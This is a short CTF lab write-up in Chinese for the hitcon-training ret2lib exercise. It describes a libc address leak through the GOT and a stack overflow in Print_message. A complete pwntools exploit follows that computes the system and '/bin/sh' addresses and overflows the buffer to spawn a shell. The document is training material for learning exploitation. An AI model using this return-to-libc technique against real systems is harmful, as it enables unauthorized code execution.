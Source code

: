 # week1
## hitcon-training -- lab4(ret2lib)
没开保护

<img width="671" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/fcc194f1-bd6f-4239-a817-cd4c2333c96c">

有个任意地址泄漏

<img width="470" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/735ed291-3416-4df4-97f9-5461758fd114">

可以通过got表地址泄漏libc

<img width="496" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/e4a4b58a-22ab-4b9f-824b-79841f867ce4">

接下来的函数Print_message存在栈溢出 直接利用泄漏的libc打system

<img width="374" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/90f6f979-325c-4da5-81bf-bc73dd5f8747">

### exp

```python
from pwn import *
p = process("./ret2lib")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

printf_got = '0x804a010'
printf_got_10 = int(printf_got, 16)

ru('(in dec) :')
sl(str(printf_got_10))


ru('address : ')
libc_printf = int(ru('\n').strip(),16)
log.info("libc_printf ==> {}".format(hex(libc_printf)))

off_printf = 0x502b0
off_binsh = 0x18e363
off_system = 0x41780
libc_base = libc_printf - off_printf
log.info("libc_base ==> {}".format(hex(libc_base)))

libc_system = libc_base + off_system
libc_binsh = libc_base + off_binsh

off = 60

payload = b'a' * off 
payload+= p32(libc_system)
payload+= p32(0xdeadbeef)
payload+= p32(libc_binsh)

# raw_input("Ther")
ru('me :')
sl(payload)

shell()

```
